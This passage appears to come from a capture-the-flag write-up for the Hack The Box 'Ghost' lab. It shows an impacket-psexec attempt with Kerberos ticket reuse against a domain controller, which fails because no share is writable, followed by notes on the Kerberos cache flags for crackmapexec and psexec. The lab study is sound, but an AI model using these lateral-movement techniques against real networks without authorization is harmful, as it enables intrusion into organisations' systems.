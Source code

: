 ```console
root@kali:~# impacket-psexec GHOST.HTB/florence.ramirez@DC01.ghost.htb -k -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on DC01.ghost.htb.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.
[-] share 'Users' is not writable.
```

> [!Note]
>
> Specifying to use kerberos cache for:
> - `crackmapexec`: `--use-kcache` - Use Kerberos authentication from ccache file (`KRB5CCNAME`) (different from `-k` / `--kerberos`)
> - `impacket-psexec`:
>   - `-no-pass` - don't ask for password (useful for `-k`)
>   - `-k` - Use Kerberos authentication. Grabs credentials from ccache file (`KRB5CCNAME`) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
